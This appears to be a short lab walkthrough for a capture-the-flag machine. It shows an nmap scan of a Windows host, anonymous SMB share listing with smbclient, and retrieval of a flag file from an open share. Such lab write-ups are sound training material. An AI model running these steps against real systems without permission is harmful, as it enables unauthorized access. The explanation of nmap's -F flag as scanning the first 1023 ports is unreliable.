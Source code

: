 ## scan

```bash
nmap -sS -A -F <targetIP>
```

* `-F` - only scan first 1023 ports

```
PORT    STATE SERVICE       VERSION  
135/tcp open  msrpc         Microsoft Windows RPC  
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn  
445/tcp open  microsoft-ds?
```

* ports 139 and 445 are listening SMB ports. 139 is SMB over netBIOS, 445 is direct SMB. We can try anonymous login to SMB like we did with FTP.

<br>

## access using SMB

```bash
$ smbclient -L <targetIP>
```

hit Enter to pass empty password

```
Password for [WORKGROUP\artyom]:  
  
       Sharename       Type      Comment  
       ---------       ----      -------  
       ADMIN$          Disk      Remote Admin  
       C$              Disk      Default share  
       IPC$            IPC       Remote IPC  
       WorkShares      Disk         
SMB1 disabled -- no workgroup available
```

```bash
$ smbclient \\\\10.129.29.29\\WorkShares
smb> ls
smb> cd James.P
smb> get flag.txt
```

* note, we just tried all directories one at a time untill got access to WorkShares. 
